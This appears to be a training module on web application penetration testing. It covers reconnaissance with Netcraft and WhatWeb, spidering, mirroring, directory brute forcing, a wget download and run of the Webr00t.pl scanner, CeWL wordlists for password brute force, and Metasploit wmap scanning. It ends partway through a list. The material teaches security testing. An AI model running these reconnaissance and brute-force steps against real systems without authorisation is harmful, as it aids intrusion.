





[TOC]


# Module 08 Web Application Penetration Testing

Web application penetration testing is the process of using penetration techniques to analyze the security of a web application and web servers to identify vulnerabilities and to find security misconfigurations. This module teaches you the process of performing web application penetration testing. The main objectives of this module are to acquaint you with the different Web app pen testing phases including web spidering, server discovery, proxy functionality, etc.

## White-Box or Black-Box?
Based on the knowledge of the target application and access to its resources, the web application penetration testing is of three types—Black-box, White-box, and Gray-box.

Look at the perspective of these three types of testing:

### Black-box testing
Black-box testing is the toughest web application testing methodology, as the pen tester has no access to the resources of an organization and no knowledge or information about the web application and its technologies. The pen tester must perform the test right from information gathering, reconnaissance, and finding flaws using various tools and techniques. This type of testing takes more time. The black-box testing reveals the behavior of a web application from the users’ point of view.

### White-box testing
White-box testing is quite opposite to black-box testing as the client organization provides the tester with knowledge of the web application and access to all its resources. It is easier and takes lesser time compared to the black-box testing. It reveals the behavior of a web application from application developer's point of view. 

The organization may provide you with the following information about the web
application in advance:

- Application design and architecture

- Information through Interviews with developers/analysts

- Software requirements

- Risk analysis Document

### Gray-box testing
Gray-box testing refers to a mixed type of testing, wherein the testers will have partial knowledge about the target and behavior of the web application.

## Web Application Penetration Testing

- Web application penetration testing is one of the processes of security assessment to find any security weaknesses, technical flaws, or vulnerabilities that may exist in the web application
- It involves performing active analysis of the application by simulating every possible attack on the target web application
- The Pen tester should perform a web application penetration test in addition to regular network penetration testing to censure the security of organization’s web application
- During web application pen testing, the pen tester tries to find and exploit web application vulnerabilities to determine what information and access he/she can gain /

## Web Application Security Frame
- The web application security relies on its security frame
- Typical web application security frame is broadly classified into the following areas:
  - Input Validation
  - Authentication and Authorization
  - Session Management
  - Cryptography
  - Configuration Management
  - Exception Management
  - As a penetration tester, you should focus and try to exploit vulnerabilities in all the areas of web security frame in orderto confirm that they are secured, robust and inevasible

The web application security relies on its security frame. Web Application Security Frame is a set of categories that define security of an application. Organizations use this frame as fundamental to design, develop, and maintain a secure application. Using the web application security frame as criteria for secure application, the penetration testers can verify the security of the application.

Various categories of the web application security frame include:

- **Input validation**: A web application acting as an interface will receive inputs from the user, execute them on servers and process the requested information. If the users provide a code or a script in the input section and the application passes it to the server, then executing it can lead to server compromise. Therefore, the web application must validate the inputs before passing them to the server.

- **Authentication and authorization**: Authentication is the process of identifying genuine users by verifying the credentials provided for accessing the resources. Authorization is the process of allocating specific resources to users based on their respective privileges. A web application must have proper authentication and authorization mechanisms to restrict the access and limit the resources, respectively, to genuine users only.

- **Configuration management**: It is the process of handling changes made to the servers and systems used to access the application, databases, and other connected devices to maintain integrity. Web applications must have proper process for configuration management, as users can deploy them across various devices running on different operating systems. Configuration management will enable the application to run properly, connect to relevant database, process the inputs, and provide outputs securely.

- **Session management**: Session refers to a sequence of request and response transactions between a user and a web application. Web applications must maintain integrity of sessions so that only the valid user can obtain information requested. Improper session management results in session-based attacks wherein the attackers can pose as genuine users to hijack the session to extract passwords and other sensitive data.

- **Cryptography**: It is the process of keeping the user information secured by using proper encryption techniques. The web application should use cryptographic algorithms to secure the user data over the network.

- **Exception management**: Exceptions are events that require special processing or additional resources to execute the inputs. The web applications may encounter various exceptions, such as abnormal input, errors in output, inability to read or write a file, etc. The web application should inform the user about the error with minimal information and manage these exceptions without crashing or revealing any of the sensitive information about the servers, database, and other technologies used.

As a penetration tester, you should focus and try to exploit vulnerabilities in all the mentioned areas of web security to confirm that these are secure, robust, and inevasible.

## Security Frame vs. Vulnerabilities vs. Attacks

Improper implementation of a proper security frame across the web application can result in various vulnerabilities, which the attackers can exploit to perform different attacks. The following table represents vulnerabilities and attacks related to various sections of a web application.

### Input validation

**Vulnerabilities**

Injection attack vulnerabilities

- The input data into the HTML tags that is not validated properly is vulnerable

* The SQL queries generated by the users which are not validated properly are vulnerable

* The other data from other sources such as HTTP cookies, headers, string parameters, etc. that are not validated properly are vulnerable

**Attacks**

- SQLinjection
- Cross-site scripting
- HTTP cookie and header manipulation
- String parameter manipulation
- Buffer overflow

### Authentication and Authorization

**Vulnerabilities**

Broken authentication and authorization vulnerabilities

- Maintaining weak or short length passwords

* Providing an account with complete accessibility to the resources
* Storing and sending the credentials in a plain text format
* Using single security check mechanism
* Not maintaining the control over the resource accessibility

**Attacks**

- Authentication bypass
- Brute force and Dictionary attacks
* Privilege escalation
* Unauthorized URL access

* Cookie replay attack
* Data tampering
* Confidential data disclosure

### Configuration Management

**Vulnerabilities**

- Misconfiguration vulnerabilities
- Storing the configuration details in an insecure place in clear text format
- Maintaining excess staff for administering leads to confusion

**Attacks**

- Administrator level unauthorized accessibility
* Access configuration stores and its details

* Debug enabled

* Trace enabled

### Session Management

**Vulnerabilities**

- Broken session management vulnerabilities
- Sending the session IDs over an insecure network
- Maintaining sessions for long time
- Passing the session IDs through queries

**Attacks**

- Session hijacking and Session replay attacks
- MITM Attack

### Cryptography

**Vulnerabilities**

Weak cryptography vulnerabilities

- Choosing weak and short cryptographic keys generated by algorithms

* Not storing the keys safely
* Too much usage of same old key for long period of time
* Sending the keys through insecure channels

**Attacks**

- Encryption cracking
- Keys theft
- Insecure cryptographic storage

### Exception Management

**Vulnerabilities**

Improper exception handling

* Not having a systematic exception handling mechanism
* Providing more information to the users

**Attacks**

- DOS attack
- Information disclosure (Obtaining confidential system information)


## Discover Web Application Default Content

This section teaches you the process of identifying and gathering the basic information about the target web application using different techniques. This helps you understand the working and architecture of the application to choose a penetration test methodology based on it.

## Identify Functionality

- Examine the core functionality of the application and check for each function it is designed to perform
- Check for key security mechanisms employed by the application, such as authentication, session management, access control, etc., and identify vulnerabilities


Client organizations develop web applications to serve and simplify various user purposes, such as online shopping, online banking, sending and receiving mails, secure the device, etc. This purpose or functionality of an application governs its characteristics and features, such as the technology, authentication mechanism, security feature, communication network, servers, and other details. Testers must determine the functionality of the web application to understand its details.

You can visit the developer organization’s website, search for the application details across online search engines and call the developer to find its functionality. Download, install, and run the application to determine its functionality by surfing through the content. Examine the core functionality of the application and check for each function it is designed to perform. Identifying the functionality also helps you to understand the data flow of a web application across the system, servers, and database as well as evaluate the key security mechanisms employed by an application, such as authentication, session management, access control, etc.

## Perform Basic Website Footprinting using Netcraft

- Use Netcraft to footprint your target website before actually browsing it. It acts as a one stop for all the information about the target website
- It helps you to find out the following type of information : 

Website footprinting is monitoring and analyzing the target organization’s website for information to enable the tester to build a detailed map of a website’s structure and architecture without triggering the IDS— or without raising a system administrator’s suspicions.

Use Netcraft to footprint your target website before browsing it. It acts as a one stop for all the information about the target website. 

It helps you to find out the following types of information:

**Background information**

- Site title

- Site rank

- Date first seen

- Primary language


**Hosting history**

- Web server IP address

- Web server version

- Web server OS

**Network information**

- IP address

- IPv6 address

- Domain registrar

- Organization’s address

- Host country

- Netblock owner

- Nameserver

- DNS admin

- Reverse DNS

- Nameserver organization

- Host company

**Site technology**

-  Server-side
- Client-side
- Client-side scripting frameworks
- Content delivery network
- Character encoding
- HTTP compression

## Perform Web Enumeration using Whatweb

- Collect information about the target web application using Whatweb

- You can find the following types of information:
  - Platform
  - CMS platform
  - Type of Script
  - Google Analytics
  - Webserver Platform
  - IPaddress, Country
  - Plugins & their libraries used
  - Server Headers, Cookies and a lot more

Penetration testers must perform web enumeration using WhatWeb to find the details, which can be used as vectors to simulate attacks on the web application. Web enumeration reveal details such as platform, CMS platform, type of script, Google Analytics, webserver platform, IP address, country, plug-ins and their libraries, server headers, cookie information, etc. 

### WhatWeb

Source: https://www.morningstarsecurity.com
WhatWeb recognizes web technologies including content management systems (CMS), blogging platforms, statistical/analytics packages, JavaScript libraries, web servers, and embedded devices. It has over 1700 plug-ins to recognize anything different and also identifies version numbers, email addresses, account IDs, web framework modules, SQL errors, and more.

You can use this tool for passive and aggressive testing to obtain information as well as for web pplications testing, proxy, web spidering, etc. Scan the target web application using the following syntax:

```
root@parrot: whatweb <Target URL>
```


**WhatWeb Aggression**

whatweb supports different levels

- Passive (default)
- Polite
- Impolite: Guess URLs when plugin matches (smart, guess a few URLs)
- Aggressive: Guess URLs for every plugin (guess a lot of URLs like nikto)

## Manually Browse the Target Website URL and Internal URLs
Penetration testers must browse the target website URL and its internal URLs to identify the functionalities, accessibility, authentication mechanisms, sign in pages, and entry points. They can also use web-spidering tools to browse the URLs of the web application.  

Steps for manually browsing the target website URL and internal URLs:

- Manually browse the target website to explore all the available features and functionalities. 
- Create an account with the website, if required, to access restricted features.
- Check the site map, if available, and check its validity and the accessibility of any page not listed in the site map
- Surf through all the available internal URLs and note those.
- Take note of all the available features with their URLs, including sign in pages and page accessibilities.
- Carefully observe and analyze anything appended after a query symbol in the requested URL.
- Carefully observe the script filename extensions in these URLs. This helps you in identifying the scripting platform used to build the webpages.
- For example, you may encounter extensions, such as .php, .asp, .jsp etc. while browsing the target web site.

## Analyze the HTML Source Code

- Take a close look at the HTML source code of web pages of the target website

- Observe the comments written in the HTML code. They may provide useful hints and contact details of
  the web admin or developer

- Carefully look for the links and image tags in the HTML code. These may help in mapping the file system and directory structure inside the web application

- Look for the destination of the ‘action’ attributes

The HTML source code defines the functionality, outlook, and behavior of an application. A web application security tester should check for the source code of the target application in order to obtain some critical information, such as useful hints and contact details for the admin or developer, scripts used in developing the application, links that help to map the directory structure of the application and the action code. This helps in understanding the functionality of the application, websites, or servers it establishes connection with, information about the developers, server-side scripts, etc.

Observe the comments written in the HTML code. They may provide useful hints and contact details of the web admin or developer. You must carefully look for the links and image tags in the HTML code. These may help in mapping the file system and directory structure inside the web application. You must also search the web site HTML code for the destination of the ‘action’ attribute.

In addition, the HTML source code also contains the headers, meta descriptions, title tags, etc. related to the web application.

**Viewing source code of the target website**

- In Microsoft Edge, check the source code using Ctrl+U or F12 key
- In Mozilla Firefox, check the source code using Ctrl+U
- In Google Chrome, check the source code using Ctrl+U
- In Apple Safari, check the source code using Command+Option+U

## Check the HTTP and HTML Processing by the Browser

- Install HTTP and HTML Analyzer plugin software to analyze HTTP and HTTPS request headers and the HTML source code

Penetration testers must verify the http headers of the application when the browser processes them. The HTTP headers give out details about the server and its version, scripting environment, and operating system used for developing or maintaining the application. This information helps in planning the tests. Install HTTP and HTML Analyzer plugin software to analyze HTTP and HTTPS request headers and the HTML source code.

### HTTP Headers

Source: https://www.esolutions.se

HTTP Headers allow you to quickly see the HTTP header information for the current URL.

This extension is helpful if you want to

- Debug web application

- Follow redirect path

- See cookies sent by remote site

- See which web server the remote site is using

- See the headers sent to the server

- See which headers the server returns

- See the HTTP verbs used

- See response codes


### HTTPWatch

Source: https://www.httpwatch.com

HttpWatch integrates with Internet Explorer and Google Chrome to provide HTTP monitoring without the need for separately configured proxies or network sniffers. Simply interact with a website and HttpWatch displays a log of requests and responses alongside the webpage itself. It even shows interactions between the browser and its cache. Each HTTP transaction can be examined to see the values of headers, cookies, query strings, and other HTTP related data.


## Identify Server-Side Technologies

### 1. Analyze HTTP response headers from the server using tool, such as **Burp suite**

Web browsers communicate with servers using Hyper Text Transfer Protocol (HTTP). The HTTP requests and responses contain HTTP headers. The testers must analyze the response headers to
extract server information, such as accept ranges, age of the request, location, proxy authentication, server type and version, content type, etc. These details help in finding the version-specific vulnerabilities, verifying the installation of updates and patches, and identifying other vectors that help in testing the server.

Use web application security testing tools such as Burp suite to analyze the response headers and
gather information about the server-side technologies.

**Burp Suite**
Source: https://portswigger.net
Burp suite is an integrated platform to perform security testing of web applications. It is designed to support the methodology of a hands-on tester, gives complete control over the actions that it performs, and enables deep analysis of the results. Burp contains several tools that work together to carry out virtually any task you encounter in testing. It automates all kinds of tasks in customizable ways and lets you combine manual and automated techniques to perform testing faster.


### 2. Analyze HTTP Requests
The header and any page returned from a HEAD or OPTIONS request usually contain a SERVER: string or similar ‘output detailing the web server software version and possibly the scripting environment or operating system in use

Tools to use:

- **Telnet**
- **Tamper Data**
- **IEWatch**
- **Paros**
- **Burp Suite**
- **Firebug**


**URL Extensions**

The given table contains information about different technologies used for accessing websites, their extensions, and the server platforms they support. Identify the server platform or technology, if any, of the following extension, if it exists on the site.

| Technology          | Extension | Server Platform                                |
| ------------------- | --------- | ---------------------------------------------- |
| Perl CGI script     | .pl       | Generic; usually web servers running on Unix   |
| Active Server Pages | .asp      | Microsoft IIS                                  |
| ASP+                | .aspx     | Microsoft.NET                                  |
| PHP script          | .php      | Generic; usually interfaced with Apache        |
| Coldfusion          | .cfm      | Generic; usually interfaced with Microsoft IIS |
| Lotus Domino        | .nsf      | Lotus Domino server                            |
| Java Server Page    | .jsp      | Various platforms                              |
| Java Struts         | .do       | Various platforms                              |

### 3. Examine the Cookies

The browser and server exchange cookies while using the web application and servers can store some cookies on the user’s system. These cookies can store sensitive information, such as username, password, server name and version, app developing platform, and so on. that testers can use to perform session-based attacks on the web application. Therefore, the testers should examine the cookies to check if they can help in performing such attacks.

You must also check the information a cookie stores about the web application and if the application has a mechanism to encrypt the cookie before sending it to the server.

| Server       | Cookie                                                       |
| ------------ | ------------------------------------------------------------ |
| Apache       | Apache=202.86.136.115.308631021850797729                     |
| IIS          | ASPSESSIONIDGGQGGCVC=KELHFOFDIHOIPLHJEBECNDME                |
| ATG Dynamo   | JSESSIONID=H4TQOBVCTCDNZQFIAEOSFFOAVAAUIIVO                  |
| IBM Net.Data | SESSION_ID=307823,wFXBDMkiwgAnRyij+iK1fg87gsw8e/TUDq2n4VZKc+UyjEZq |
| ColdFusion   | CFID=573208, CFTOKEN=86241965                                |
| Java         | JSESSIONID                                                   |
| ASP.NET      | ASP.NET_Sessionid                                            |
| PHP          | PHPSESSID                                                    |


### 4. Examining the Error Page Messages

Penetration testers must also check the information provided in error messages of the target web application, as it may include useful information, such as the framework and server details along with their version numbers used for running the web application.


## Identify the Technology used to Build Target Website

Use website profiler tool available in https://builtwith.com to find out the technologies used in the development of the website. This helps to find the functionality and the background processes involved in functioning of the website.

**Technology Profile**


**Detailed Technology Profile**


**Relationship Profile**


## Identify the Sitemap of Target Website

**Create sitemap of the website**

Sitemap refers to a file that holds a list of webpages related to a website. Penetration testers should find the sitemap of a website as it provides metadata of the listed webpages that can help in finding the security flaws and other vulnerabilities of the website. You can use web application analysis tools such as Burp suite to create a sitemap of the website and find any interesting or sensitive content that was hidden during normal use.


Most organizations produce and maintain sitemaps on their websites in the interests of search engine optimization as well as for offering ease of use to the customers. Penetration testers must search the websites carefully for their sitemaps. You must check the following to see if the target website reveals its sitemap:

- An .xml file contains the list of all the publicly accessible pages.
- If not configured properly, the sitemap may reveal sensitive locations and files.

- Check for a sitemap.xml file on the target website.

- Append /sitemap.xml or /sitemap.xml.gz to the target URL.

For example: www.targetsite.com/sitemap.xml

**Note**: You can directly explore the sitemap for the target website with the help of this step.


## Perform Web Spidering

- Web spiders automatically visit every page on a website, parsing pages for links to other content recursively and indexing them in a logical flow
- Configure your browser to use a spidering tool, such as **Burp Sulte**, **OWASP Zed Attack Proxy**, or **WebScarab**, as a local proxy and browse every page of the web application as a normal user
- Fill registration or any other forms on the website, if required Repeat the above procedure with enabled and disabled cookies ‘and scripting features

Web spidering or web crawling is the process of finding all the web pages related to a website or a web application. The process uses a bot called web spider that harvests the website information. Web spiders automatically visit every page on a website, parsing pages for links to other content recursively and indexing them in a logical flow. Web spidering helps the testers to discover the hidden content and functionality by parsing HTML form and client-side JavaScript requests and responses. Configure your browser to use a spidering tool, such as Burp Suite, OWASP Zed Attack Proxy, or WebScarab, as a local proxy and browse every page of the app as a normal user.

You must perform web spidering to find the hidden web pages, input sections, authentication mechanisms, session handling, and other vectors that the testers can exploit to perform attacks on the web application. You must fill registration or any other forms on the website, if required. Repeat the above procedure with enabled and disabled cookies and scripting features.


## Mirror and Crawl a Website to Identify its Files, Directories, Folders

- Websites are updated on a daily or weekly basis, making it hard for the users to extract old information
- Crawling through the website and mirroring is done mainly for the following reasons:
  - To download a website to a local directory
  - Top reserve a website or page for future reference
  - To extract the unavailable information

Websites are updated on a daily or weekly basis, making it hard for the users to extract old information. Websites and web applications are important parts of the business and performing testing directly on them can result in business disruptions and losses to the organization. Due to such issues, the penetration testers will not be able to simulate the attacks that can have huge impacts. As a tester, you can overcome such issues by creating copies of the target web application and running them on a virtual environment that offers similar functionality. 

Use the mirroring technique to create a copy of the target website or web application on the virtual system. This will help you to conduct a thorough penetration test with any degree of attack without causing any damage to the business. You can use command line tools such as wget or mirroring tools such as HTTrack, SurfOnline, BlackWidow, NCollector Studio, etc. Crawling through the website and mirroring is done mainly for the following reasons:

* To download a website to a local directory

* To preserve a website or page for future reference

* To extract the unavailable information

The process will also help you to find the files, directories and folders that the developer assumed   to be inaccessible to public. These files may contain sensitive information about the web application or account details and can also help you in performing directory traversal attacks on the web application.

**Website Mirroring Tools**

### HTTrack Web Site Copier

Source: https://www.httrack.com

HTTrack is a free (GPL, libre/free software) and easy-to-use offline browser utility. It allows you to download a website from the Internet to a local directory, building all directories, getting HTML, images, and other files from the server to your computer. It arranges the original site's relative link-structure. Simply open a page of the "mirrored" website in your browser and you can browse the site from link to link, as if you were
viewing it online. It can  also update an existing mirrored site and resume interrupted downloads. It is fully configurable and has an integrated help system.


### SurfOffline

Source: http://www.surfoffline.com

SurfOffline can save a website to your hard drive completely or partially in minutes. Another important feature is a wizard-like interface that enables the users to quickly set up downloading rules. Importantly, the program supports HTTP, SSL (HTTPS), FTP, proxy servers, CSS, Macromedia Flash and JavaScript parsing.


### BlackWidow

Source: http://www.softbytelabs.com

BlackWidow scans websites (it's a site ripper). It can download an entire website or download portions of a site. It is not restricted to downloads but can build a site structure first, then download later; you may select what to download.


### NCollector Studio

Source: http://www.calluna-software.com

NCollector Studio is the easy way to download content from the web to your computer. Crawl for specific file types to make any website available for offline browsing or simply download a website to your local computer. NCollector Studio is the all-in-one solution covering the needs of a professional or home user.


## Perform Directory Brute Forcing using DirBuster

- Use DirBuster to extract and understand the structure, directories, and files of the target website

### DirBuster

Source: https://www.owasp.org

DirBuster is a Java application designed to Brute force directories and files names on web/application servers. Often, as is the case now, of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within.
DirBuster attempts to find these.


## Identify the Restricted Directories that Web Crawlers can not Find

- Most websitesmaintaina robots txt file to restrict web crawlers from crawling certain pages

- By viewing the robots.txt file, you can find files, directories, and folders the web administrator
  does not want youto look at

- Append /robots.txtto the target URL

  For example:
  www.targetsite.com/robots.txt

Application and website developers create the robots.txt files as part of the robot exclusion protocol (REP), which defines the standards and regulations that web crawlers follow to index the content of a website or a web application. The file contains the information about contents of the website that web crawlers should access as well as restricted sections. Most websites maintain a robots.txt file to restrict web crawlers from crawling certain pages.

As penetration testers, you must find the robots.txt file to obtain a list of restricted directories and check if the restricted directories are accessible. You can use Brute force and directory traversal attacks to gain access to the restricted directories in the web application. Tools such as DirBuster can also help in accessing the restricted directories.

To view the robots.txt file, you need to append/robots.txt to the target URL.

For example: www.targetsite.com/robots.txt


## Discover Hidden Content of the Target Website

- Use perl script Webr00t.pl to discover hidden directories and files of the target website

Some websites hide their content from users that even the web spiders or crawlers could find hard to extract. This information can include files, folders, directories and links to other websites or servers. This hidden content can be sensitive in nature and can help attackers in attacking the web application.

As testers, you need to check if the website has any hidden content that attackers can extract using techniques, such as Brute force and directory traversal attacks. You can use the Perl script-
based information gathering tool Weebr00t.pl to find the hidden content. Use the following syntax for the command line interface of the tool in Parrot terminal to launch this tool:

**Download Webr00t**

```
wget https://dl.packetstormsecurity.net/UNIX/cgi-scanners/Webr00t.pl
```

**Launch tool**

```
perl Webr00t.pl -h 172.31.2.24 -v | grep -v "404 Not Found"
```

```
$ perl Webr00t.pl -h http://www.targetsite.com
```

### Webr00t.pl

Source: https://dl.packetstormsecurity.net

WeBr00t.pl is used to discover hidden directories and “interesting” files on webservers. Use it when “pentesting” tight applications and servers to find that one directory or script left by mistake that gives you your rootshell!


## Extract Common Word List from the Target
- Use CeWL, a custom wordlist generator to extract common list of words from the target website
- This created list can be used to perform brute force attack

One of the easiest ways to break into an application or a website is to Brute force its sign in password. To do this, you need to find a list of words that the developers may have used as password. To guess the words, you need to find the commonly used words across the target website. Use the CeWL, a custom word list generator, to extract the common list of words from the target website. This created list can be used to perform brute force attack.

### CeWL

Source: https://digi.ninja
CeWL is a Ruby app that spiders a given URL to a specified depth, optionally following external links, and returns a list of words that can then be used for password crackers such as John the Ripper. CeWL also has an associated command line app, FAB (Files Already Bagged) which uses the same metadata extraction techniques to create author/creator lists from already downloaded files.


## Conduct Web Vulnerability Scanning

The vulnerability scanning allows penetration testers to identify potential vulnerabilities in the target web application. This section discusses about the process of finding various vulnerabilities in the target web application vulnerability and use of vulnerability scanners such as WebInspect, IBM Security AppScan, Qualys, etc.

- Perform vulnerability scanningto detect security vulnerabilities on the target application
- Run Web Application Vulnerability Scanners, such as WebInspect, Qualys, Vega, etc. to scan web applications for vulnerabilities

As a part of web applications penetration testing, the testers must perform the vulnerability assessment to identify various security vulnerabilities in the target web application. Security vulnerabilities and flaws are one of the exploited vectors that attackers use to gain unauthorized access to the web application. The testers need to notify the developers about these vulnerabilities so that they can fix them before any damage or losses occur. You can discover the vulnerabilities either manually or using various tools such as WebInspect, IBM Security AppScan, Vega, and Qualys.

## Web Application Vulnerability Scanners

### WebInspect

- WebInspect is a Web application security assessment solution designed to thoroughly analyze today’s complex Web applications and Web services for security vulnerabilities

- It can detect new types of vulnerabilities that often go undetected by blackbox security testing technologies

Source: https://www.microfocus.com
Webinspect is a Web application security assessment solution designed to thoroughly analyze today’s complex Web applications and Web services for security vulnerabilities. It can detect new types of vulnerabilities that often go undetected by black-box security testing technologies. WebInspect is an automated dynamic testing solution that discovers configuration issues and identifies and prioritizes security vulnerabilities in running applications. It mimics real-world hacking techniques and provides comprehensive dynamic analysis of complex web applications and services. WebInspect dashboards and
reports provide organizations with visibility and an accurate risk posture of your applications.


### Qualys

- Qualys Web Application Scanning (WAS) is a cloud-based service that provides automated crawling and testing of custom web applications to identify vulnerabilities including cross-site scripting (XSS) and SQL injection
- The automated service enables regular testing that produces consistent results, reduces false positives, and easily scales to secure a large number of websites

Source: https://www.qualys.com

Qualys WAS’ deep scanning covers all apps on your perimeter, in your internal environment, and under active development, and even APIs that support your mobile devices. It also covers public cloud instances and gives you instant visibility of vulnerabilities like SQLi and XSS. Authenticated, complex, and progressive scans are supported. With programmatic scanning of SOAP and REST API services, WAS tests loT services and APIs used by mobile apps and modern mobile architectures. The automated service enables regular testing that produces consistent results, reduces false positives, and easily scales to secure a large number of websites.

WAS may insert security into application development and deployment in DevSecOps environments. With WAS, detect code security issues early and often, test for quality assurance, and generate comprehensive reports. With its tight Qualys WAF integration, WAS continuously monitors and virtually patches production apps.

WAS scans an organization’s websites, identifies, and reports infections, including zero-day threats via behavioral analysis. Detailed malware infection reports accompany infected code for remediation. A central dashboard displays scan activity, infected pages and malware infection trends, and lets the users initiate actions directly from its interface. Malware detection functionality is provided via an optional add-on.


### Metasploit

**wmap**

1. We have to load the scanner

```
# service postgresql start
# msfconsole
# load wmap
```


**wmap configuration**

1. We have to define the target for the tool

2. We do this by adding the site

   ````
   wmap_sites -a <IP>
   ````

3. Add the target (URL)

  ```
  wmap_targets -t <URL> 
  ```

  

**wmap Module Assessment**

1. We need to assess the target to determine which modules we load in the wmap tool
   The command **wmap_run -t** Provides an assessment of the target


**Running the Tests**
To run the scanner, we enter **wmap_run -e**


**Displaying the Results**
Test results are stored in the internal database
To display **wmap_vulns -l**


## Perform Web Application Fuzz Testing
- Use web application fuzzing tools, such as **WebScarab**, **zzuf**, **Wfuzz**, **JBroFuzz**, etc. to test the robustness and immunity of the developed web application against attacks like buffer overflow, DOS, XSS, SQL injection, etc.

Fuzz testing, also called Fuzzing, is a form of Black Box testing in which the testers use automated tools to perform the injection attacks to find any implementation bugs in an app. The testers use many inputs including SQL injection inputs provided by the tool against the app. 

As testers, you need to perform fuzz testing of the target apps to determine the vulnerabilities. You may use app fuzzing tools such as WebScarab, zzuf, Wfuzz, JBroFuzz, etc. to test the robustness and immunity of the developed web app against attacks like buffer overflow, DOS, XSS, SQL injection, etc.

### WebScarab

Source: https://www.owasp.org
WebScarab is a framework for analyzing applications that communicate using the HTTP and HTTPS protocols. It is written in Java and is thus portable to many platforms. It has several modes of operation implemented by many plug-ins. In its most common usage, it operates as an intercepting proxy, allowing the operator to review and modify requests created by the browser before they are sent to the server, and to review and modify responses returned from the server before they are received by the browser. It is able to intercept both HTTP and HTTPS communications. The operator can also review the conversations (requests and responses) that have passed through it. The WebScarab tool contains an option called fuzz testing for a web application that testers can use for inserting various parameters repetitively that the target web application would not expect.


## Identify Entry Points for User Input 
- Examine the URL, HTTP header, query string parameters, POST data, and cookies to determine all user input fields
- Identify HTTP header parameters that can be processed by the application as user inputs, such as User-Agent, Referrer, Accept, Accept-Language, and Host headers
- Determine URL encoding techniques and other encryption measures implemented to secure web traffic, such as SSL
- Use tools, such as HttPrint or WebScarab to find entry points in web applications 

An entry point of a web application refers to the location through which the web application captures a user input for processing on the application server. Attackers can manipulate these input fields to access the web application. 

Some of the most common entry points to a web application include:

- URL queries,
- Fields using GET and POST methods,
- Cookies, and
